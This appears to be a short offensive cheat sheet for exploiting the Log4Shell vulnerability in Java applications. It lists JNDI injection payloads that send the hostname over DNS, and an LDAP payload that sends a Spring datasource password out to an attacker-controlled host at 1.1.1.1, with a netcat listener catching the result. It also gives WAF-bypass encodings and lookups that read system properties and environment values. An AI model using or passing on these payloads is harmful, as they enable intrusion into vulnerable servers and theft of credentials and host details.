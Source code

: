 # Java
## log4shell
- DNS outbounding
 ```bash
 nc lvnup 53
 ${jndi:dns://1.1.1.1:53/${hostName}}    
```
```
root@ecs:~# nc -lvnup 444
Bound on 0.0.0.0 444
Connection received on 192.168.1.2 46684

[hostname_here]
 ```
- [WAF bypass](https://b1ue.cn/archives/513.html) (@b1ue)
  - ${:-j} = j
  - ${upper:-j}
  - json : unicode, hex
  ```bash
  "\u0024\u007b" = ${
  "\x24\u007b" = ${
  ```
- Infomation
  - sys : System.getProperty()
  ```bash
  ${hostName}
  ${sys:java.version}
  ${sys:os.version}
  ${sys:user.name}
  ```
  - env : System.getEnv()
  - bundle
```bash
${jndi:ldap://1.1.1.1:4444/${bundle:application:spring.datasource.password}} 
```
- 

